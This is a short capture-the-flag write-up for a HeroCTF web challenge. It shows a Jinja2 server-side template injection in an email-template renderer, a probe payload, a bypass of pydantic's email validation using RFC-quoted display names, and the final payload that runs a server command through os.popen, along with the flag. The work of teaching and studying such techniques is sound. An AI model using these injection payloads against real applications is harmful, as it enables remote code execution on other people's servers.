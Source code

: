# Jinjatic

### Category

Web

### Description

A platform that allows users to render welcome email's template for a given customer, sounds great no ?

> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)

Format : **Hero{flag}**<br>
Author : **Worty**

### Write Up

The platform is using jinja2 to render email templates that is vulnerable to SSTI :

```py
return Template(email_template%(email)).render()
```

So we can inject payloads like `test+{{7*7}}@heroctf.fr`

But, as the email is verified by pydantic, and that double quotes are disables by default, we canno't use payloads like : `test+{{lipsum.__globals__.os.system('id')}}@heroctf.fr`

If we read the pydantic source code, we see that it is using the module `email-validator` that is fully compliant with the email RFC.
With this in mind, email may have two shapes :

```
worty@heroctf.fr
"Worty" <worty@heroctf.fr>
```

So, for pydantic, everything under the double quotes in the second shape is considered valid !

The payload to get the flag is :

```
"Worty test+{{lipsum.__globals__.os.popen('/getflag').read()}}@heroctf.fr" <worty@heroctf.fr>
```
### Flag

HERO{f815460cee723a7d1ba1f0a70f68482c}
